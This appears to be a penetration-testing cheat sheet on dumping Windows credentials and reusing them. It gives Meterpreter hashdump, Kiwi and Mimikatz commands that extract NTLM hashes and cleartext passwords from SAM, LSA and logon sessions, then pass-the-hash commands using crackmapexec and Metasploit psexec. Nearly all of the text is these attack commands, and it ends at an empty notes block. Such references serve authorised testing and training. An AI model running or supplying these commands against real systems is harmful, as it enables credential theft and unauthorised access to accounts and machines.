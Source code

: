 **(1) hashdump (Metasploit - Meterpreter)**

```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
migrate <PID explorer.exe>
hashdump
```

**(2) Kiwi (Metasploit - Meterpreter)**

```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
migrate <PID explorer.exe>

load kiwi
# Retrieve all credentials (parsed)
creds_all 
# NTLM hashes for all of the user accounts on the system
lsa_dump_sam
# Find the clear text passwords
lsa_dump_secrets
# Note: from the Windows version 8.0+, windows don’t store any plain text password.
# So, it can be helpful for the older version of the Windows.
```

**(3) Mimikatz**

```batch
# 1. Upload mimikatz.exe

# 2. Execute
mimkatz.exe

:: Get debug rights. This should be a standard for running mimikatz as it needs local administrator access
:: This should return Privilege '20' OK.
privilege::debug 

:: NTLM hashes for all of the user accounts on the system
lsadump::sam
:: To find the clear text passwords, but it's not always possible
sekurlsa::logonpasswords  
```

### Pass the Hash

```sh
# 1. Method
crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"

# 2. Method (Metasploit) -> windows/smb/psexec
set SMBPass <LM hash>:<NTLM hash>
```

{{< hint style=notes >}}
**Notes**:
